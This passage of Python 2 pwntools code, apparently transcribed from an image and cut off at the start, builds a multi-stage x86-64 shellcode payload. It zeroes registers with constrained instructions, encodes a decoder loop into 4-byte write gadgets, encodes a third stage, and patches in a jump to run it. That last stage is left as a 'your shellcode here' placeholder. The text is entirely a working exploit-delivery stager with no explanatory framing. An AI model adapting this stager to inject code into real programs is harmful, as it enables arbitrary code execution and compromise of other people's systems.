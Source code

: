 ```python
    # zero rsi and rax, clobber r8 and r9
    payload += asm('''
push rsp
pop r9
pop r8
push rsi
xor rsi, [r9]
push rsi
pop rax
''', arch='amd64') # zero eax
    payload += asm('push rax; push rax; pop rbx; pop rdi;', arch='amd64') # save zero in rbx for later uses

    for i in range(0, len(stage2), 4):
        frag = stage2[i:i+4]
        xlate_frag = write4(u32(frag))
        payload += xlate_frag
        print '%s => %s' % (frag.encode('hex'), xlate_frag.encode('hex'))

    stage3_thunk = ''
    for i in range(0, len(stage3), 8):
        frag = stage3[i:i+8]
        xlate_frags = map(p64, solve_set_rax(u64(frag)))
        print '%s =>' % (frag.encode('hex'),),
        for xlate_frag in xlate_frags:
            stage3_thunk += xlate_frag
            print xlate_frag.encode('hex'),
        print

    len_set_rdi = len(set_rdi(0xdeadbeef))
    len_write4 = len(write4(0xdeadbeef))

    # assemble args for and jump to stage2
    offset_of_jump = len(payload) + len_set_rdi + len_write4 + 2 * len_set_rdi
    print "Jump at +%d\n" % (offset_of_jump,)
    payload += set_rdi(offset_of_jump) # point to jmp instruction location
    payload += write4(u32(asm('jmp rdx; nop; nop;', arch='amd64')))

    payload += set_rsi(offset_of_jump + 4) # point to stage3 thunk
    payload += set_rdi(len(stage2)) # point to after stage2
    payload += 'AAAA' # gets overwritten by jmp
    payload += stage3_thunk

    return payload

stage2 = asm('''
loop:
mov rax, qword ptr [rdx+rsi]
imul rax, qword ptr [rdx+rsi+8]
mov qword ptr [rdx+rdi], rax
add edi, 8
add esi, 16
test eax,eax
jnz loop
''', arch='amd64')
stage2 += '\x90' * (-len(stage2) % 4) # pad

stage3 = asm('''
/* your shellcode here o_O */
''', arch='amd64')
stage3 += '\x90' * (-len(stage3) % 8) # pad

payload = xlate(stage2, stage3)
```